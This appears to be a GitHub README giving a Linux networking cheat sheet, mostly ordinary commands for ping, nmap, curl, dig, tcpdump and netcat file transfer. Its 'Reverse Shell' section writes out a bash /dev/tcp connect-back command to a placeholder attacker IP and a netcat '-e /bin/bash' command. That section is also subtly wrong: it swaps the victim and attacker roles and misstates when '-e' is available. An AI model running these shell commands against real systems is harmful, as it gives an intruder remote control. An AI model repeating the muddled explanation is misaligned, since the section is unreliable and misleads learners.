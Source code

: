 # **Networking Commands - Linux Quick Reference**

## Table of Contents
- [Network Utilities](#network-utilities)
- [Netcat Commands](#netcat-commands)
- [Network Troubleshooting](#network-troubleshooting)

Recommended OS: Kali Linux

---

## Network Utilities

- **`ping`**: Test connectivity to a host.  `ping <hostname or ip>`
- **`ifconfig`**: Display network info, like IP address.  `ifconfig`
- **`netstat`**: Show network connections and statistics.  `netstat -tuln`
- **`nmap`**: Scan network for hosts and open ports, for one ip, or a range.
  ex. `nmap <ip>` or `nmap 192.168.1.1-20` or `nmap 192.168.1.0/24`
- **`curl`**: Transfer data to and from a server (HTTP, FTP).  `curl http://example.com/file.zip`
- **`route`**: View or modify the routing table.  `route -n`
- **`mtr`**: Diagnostic tool combining ping and traceroute. `mtr <hostname or ip>`

---

## Netcat Commands

- **Listen on port**:  `nc -lvp 1234`
- **Connect to host**:  `nc <hostname or IP> 1234`
- **Scan for certain ports in a range**: `nc -zv <hostname> 1-100`
- **Send file**:  
  1. Receiver opens port and preps redirect:  `nc -l 12345 > received_file.txt`  
  2. Sender connects and redirects file to receiver ip:  `nc <receiver_ip> 12345 < my_file.txt`
- **Reverse Shell**:  
  1. Victim opens port:  `nc -lvp 4444`  
  2. Attacker:  `bash -i >& /dev/tcp/<attacker-ip>/4444 0>&1`
     Note: Attacked may use `nc -l -p 1234 -e /bin/bash` on newer systems. 

---

## Network Troubleshooting

- **`dig`**: Query DNS.  `dig example.com`
- **`tcpdump`**: Capture network traffic.  `sudo tcpdump -i eth0` or `sudo tcpdump src host <ip>`
- **`hostname`**: Show or set hostname.  `hostname`

---

*Created by MD Harrell*  
For more info, visit the [Kali Linux Docs](https://www.kali.org/docs/).
